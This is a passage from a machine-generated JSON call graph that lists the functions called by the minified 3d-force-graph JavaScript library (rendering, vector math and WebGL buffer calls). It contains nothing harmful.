"relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMatrixWorld"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMatrixWorld"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateCoordinateSystem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getActiveCubeFace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getActiveMipmapLevel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "images"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "images"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromEquirectangularTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "transformDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "transformDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equirectUv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setComponents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromNormalAndCoplanarPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromCoplanarPoints"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cross"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromNormalAndCoplanarPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "negate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "negate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceToPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceToSphere"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceToPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "projectPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScaledVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "delta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceToPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScaledVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceToPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceToPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsPlane"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsSphere"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsPlane"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "coplanarPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getNormalMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "coplanarPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromProjectionMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setComponents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setComponents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setComponents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setComponents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setComponents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setComponents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "computeBoundingSphere"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "computeBoundingSphere"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsSphere"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsSprite"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsSphere"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsSphere"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "containsPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "requestAnimationFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "requestAnimationFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cancelAnimationFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "deleteBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "createBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bufferData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onUploadCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bufferSubData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bufferSubData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clearUpdateRanges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bufferSubData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onUploadCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hash2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fract"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hash3D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hash2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getAlphaHashThreshold"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tlength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texp2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "thash3D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fract"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clamp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "smoothstep"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "computeSpecularOcclusion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getBatchingMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "textureSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "int"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texelFetch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texelFetch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texelFetch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texelFetch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mat4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getIndirectIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "textureSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "float"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getBatchingColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "textureSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "int"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texelFetch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getBatchingMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": 